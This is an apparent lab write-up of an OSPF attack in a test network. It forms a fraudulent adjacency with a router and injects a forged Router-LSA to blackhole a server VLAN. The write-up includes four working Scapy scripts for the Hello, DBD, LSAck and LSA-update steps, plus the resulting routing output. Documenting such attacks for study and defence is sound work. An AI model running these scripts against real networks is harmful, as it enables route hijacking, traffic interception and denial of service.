







## Objective

Exploit OSPF's lack of authentication to form a fraudulent adjacency between 
the attacker and a legitimate router (R1), then inject forged routing data 
(a Router-LSA) to redirect or blackhole traffic intended for a protected 
network segment.

## Attack Mechanism

OSPF routers form neighbor relationships automatically with any device that 
sends correctly-formatted control packets matching their configuration — 
there is no authentication by default. An attacker who crafts packets 
matching a target router's Area ID, subnet, and timer settings can be 
accepted as a legitimate neighbor, progress through OSPF's full state 
machine (Hello → Database Description → Loading), and once trusted, inject 
fabricated Link State Advertisements (LSAs) that other routers accept as 
authoritative — provided the forged LSA carries a higher sequence number 
than the legitimate one it's replacing.

## Recon

Both R1 and R2 (a second router added to the topology to generate real OSPF 
traffic) sit on the same VLAN as Kali, allowing passive capture of genuine 
OSPF Hello, DBD, and LSA traffic between them — providing exact field values 
(Area ID, subnet mask, timers, authentication type, real sequence numbers) 
needed to craft convincing forged packets.



## Exploitation

### Establishing the Fake Adjacency

Using the field values extracted from recon, a crafted Hello packet was sent 
from Kali, claiming a fake Router ID (192.168.10.3) and including R1's real 
Router ID in its neighbor list — successfully progressing R1's adjacency 
state machine to EXSTART.

**`ospf_hello.py`:**
```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.contrib.ospf import *
import time
ospf_hello = (Ether(dst="01:00:5e:00:00:05") / IP(dst="224.0.0.5", ttl=1) / 
              OSPF_Hdr(area="0.0.0.0", authtype=0, src="192.168.10.3") / 
              OSPF_Hello(mask="255.255.255.0", hellointerval=10, deadinterval=40, 
                         options="E", neighbors=["192.168.30.1"]))
while True:
    sendp(ospf_hello, iface="eth0")
    time.sleep(10)
```



### Completing the Handshake (DBD Negotiation)

R1 responded with Database Description (DBD) packets, expecting a valid 
negotiation reply. A second script captured each DBD, dynamically extracted 
its sequence number and LSA header contents, and replied accordingly — 
correctly tracking the negotiation's Master/Slave and More (M) flags to 
avoid stalling the exchange.

**`ospf_dbd.py`:**
```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.contrib.ospf import *
def handle_dbd(packet):
    if packet.haslayer(OSPF_DBDesc) and packet[IP].src == "192.168.10.1":
        lsa = packet[OSPF_DBDesc].lsaheaders
        seq_dd = packet[OSPF_DBDesc].ddseq
        r1_flags = packet[OSPF_DBDesc].dbdescr
        my_flags = "M" if "M" in r1_flags else ""
        ospf_dbd = (Ether(dst="ca:01:0a:4c:00:00") / IP(dst="192.168.10.1") / 
                    OSPF_Hdr(area="0.0.0.0", authtype=0, src="192.168.10.3") / 
                    OSPF_DBDesc(mtu=1500, options="E", dbdescr=my_flags, 
                               ddseq=seq_dd, lsaheaders=lsa))
        sendp(ospf_dbd, iface="eth0")
sniff(iface="eth0", filter="ip host 192.168.10.1", prn=handle_dbd, count=0)
```

### Sustaining the Adjacency (LSA Acknowledgment)

The adjacency initially dropped after roughly two minutes with "too many 
retransmissions." Investigation showed R1 was periodically flooding real LSA 
Updates and expecting an LSAck in response — which neither prior script 
handled. A third script listens for LS Updates and replies with a proper 
acknowledgment, extracting each LSA's header fields dynamically.

**`ospf_lsa_ack.py`:**
```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.contrib.ospf import *
def handle_lsa(packet):
    if packet.haslayer(OSPF_LSUpd) and packet[IP].src == "192.168.10.1":
        lsa_item = packet[OSPF_LSUpd].lsalist[0]
        lsa_hdr = OSPF_LSA_Hdr(age=lsa_item.age, options=lsa_item.options, 
                               type=lsa_item.type, id=lsa_item.id, 
                               adrouter=lsa_item.adrouter, seq=lsa_item.seq, 
                               chksum=lsa_item.chksum, len=lsa_item.len)
        ospf_lsa_ack = (Ether(dst="ca:01:0a:4c:00:00") / IP(dst="192.168.10.1") / 
                        OSPF_Hdr(area="0.0.0.0", authtype=0, src="192.168.10.3") / 
                        OSPF_LSAck(lsaheaders=[lsa_hdr]))
        sendp(ospf_lsa_ack, iface="eth0")
sniff(iface="eth0", filter="ip host 192.168.10.1", prn=handle_lsa, count=0)
```

With all three scripts running together, the adjacency held indefinitely.



### Injecting the Forged Route

With a fully trusted adjacency established, a forged Router-LSA was crafted 
under the fake router identity, claiming a cheap (metric 0) stub link to 
192.168.30.0/24 (the SERVERS VLAN) — beating R1's real advertised cost of 1 
for the same network — plus a transit link back to the shared segment so R2 
could calculate a real path to the fake router.

**`ospf_lsaupd.py`:**
```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.contrib.ospf import *
fake_link = OSPF_Link(id="192.168.30.0", data="255.255.255.0", type=3, metric=0)
transit_link = OSPF_Link(id="192.168.10.1", data="192.168.10.20", type=2, metric=1)
fake_lsa = OSPF_Router_LSA(age=1, options="E", type=1, id="192.168.10.3", 
                            adrouter="192.168.10.3", seq=0x80000025, 
                            linkcount=2, linklist=[fake_link, transit_link])
ospf_lsa_upd = (Ether(dst="01:00:5e:00:00:05") / IP(dst="224.0.0.5") / 
                OSPF_Hdr(area="0.0.0.0", authtype=0, src="192.168.10.3") / 
                OSPF_LSUpd(lsalist=[fake_lsa]))
sendp(ospf_lsa_upd, iface="eth0")
```

A critical detail: the forged LSA's sequence number must exceed the real 
LSA's current value, or it is silently ignored as not-newer — an early 
attempt using a stale sequence number produced no effect until this was 
corrected.

The forged LSA was accepted into both R1's and R2's link-state databases:

```
LS age: 19
LS Type: Router Links
Link State ID: 192.168.10.3
Advertising Router: 192.168.10.3
LS Seq Number: 80000025
Number of Links: 2
Link connected to: a Stub Network
(Link ID) Network/subnet number: 192.168.30.0
(Link Data) Network Mask: 255.255.255.0
TOS 0 Metrics: 0
Link connected to: a Transit Network
(Link ID) Designated Router address: 192.168.10.1
(Link Data) Router Interface address: 192.168.10.20
TOS 0 Metrics: 1
```

### Result: Route Hijack

R2's routing table updated to prefer the fraudulent path:



Traffic destined for 192.168.30.0/24 now routed through Kali (192.168.10.20) 
at cost 1, beating R1's real cost of 2.

### Verifying Impact: Blackhole/DoS

A real ACL exception was added to attack-01's ACL 100 and ACL 101 
(permitting R2 specifically to reach VLAN 30), establishing a genuine 
"before" baseline — R2 could reach Metasploitable (192.168.30.10) normally 
before the injection.



After injecting the forged Router-LSA, the same ping was attempted again. 
It failed completely:



A simultaneous capture on Kali confirmed exactly why: the ICMP requests were 
genuinely arriving at Kali (proving the route hijack was real, not just a 
routing table entry that went unused), but went no further — Kali has no 
routing/forwarding logic to relay them onward, and even if it did, the 
existing VLAN-10-to-VLAN-30 ACLs from attack-01 would block any relay 
attempt regardless.



This confirms the attack's real-world impact as a **blackhole / denial-of-service** 
via routing manipulation, rather than a man-in-the-middle: traffic for 
192.168.30.0/24 is successfully diverted to the attacker and silently 
dropped, denying legitimate access to the SERVERS segment without the 
attacker needing to relay or even understand the traffic's content.

## Impact

Beyond the demonstrated blackhole, a fraudulent OSPF adjacency and successful 
route injection open several more damaging possibilities:

- **Interception of private communications** — rather than blackholing 
  traffic, an attacker with real forwarding/relay capability could position 
  themselves as a genuine man-in-the-middle for any traffic redirected 
  through a forged route, similar in effect to attack-02's ARP-based MITM, 
  but achieved at the routing layer and potentially affecting far more 
  traffic across a larger portion of the network.
- **Credential theft** — any unencrypted protocol (Telnet, as demonstrated 
  in attack-02) passing through a hijacked route would expose credentials 
  and session content in plaintext to the attacker.
- **Denial of service at scale** — since a single forged LSA can affect the 
  routing decisions of every router in the area that processes it (not just 
  a directly-connected neighbor), this attack can blackhole traffic to an 
  entire subnet across a whole network, not just between two specific hosts.

This attack is particularly severe because it exploits *trust between 
routers themselves* — a layer most network defenses assume is inherently 
safe, unlike host-level traffic which is more commonly scrutinized by 
firewalls, IDS, or endpoint security.
